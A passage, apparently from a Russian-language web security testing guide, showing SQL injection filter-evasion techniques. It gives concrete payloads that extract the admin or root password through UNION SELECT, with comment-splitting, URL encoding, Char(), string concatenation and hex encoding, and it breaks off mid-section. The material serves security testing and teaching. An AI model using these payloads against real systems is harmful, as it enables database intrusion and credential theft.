 `'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--`

`'/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--`

#### Кодировка URL

Используйте [URL-кодировщик](https://meyerweb.com/eric/tools/dencoder/) для кодирования SQL-выражения

`' UNION SELECT password FROM Users WHERE name='admin'--`

Получаем выражение SQL-инъекции в кодировке URL

`%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--`

#### Кодировка символов

Функцию Char() можно использовать для замены символов, например, английских букв. Т.е. char(114,111,111,116) означает root:

`' UNION SELECT password FROM Users WHERE name='root'--`

Выражение SQL-инъекции с применением Char():

`' UNION SELECT password FROM Users WHERE name=char(114,111,111,116)--`

#### Конкатенация строк

Конкатенация разбивает ключевые слова SQL и обходит фильтры. Синтаксис конкатенации зависит от сервера базы данных. Возьмем в качестве примера MS SQL:

`select 1`

Простое SQL-выражение можно изменить, как показано ниже, с помощью конкатенации.

`EXEC('SEL' + 'ECT 1')`

#### Шестнадцатеричная кодировка

Метод hex-кодирования использует шестнадцатеричную кодировку для замены исходного символа SQL-выражения. Например, `root` может быть представлен как `726F6F74`

`Select user from users where name = 'root'`

Тот же SQL с использованием HEX-значения:

`Select user from users where name = 726F6F74`

или

`Select user from users where name = unhex('726F6F74')`

#### Объявление переменных

Объявите SQL-инъекцию как переменную и выполните её.

Например, SQL-инъекция ниже

`Union Select password`

определяет SQL-выражение в переменной `SQLivar`
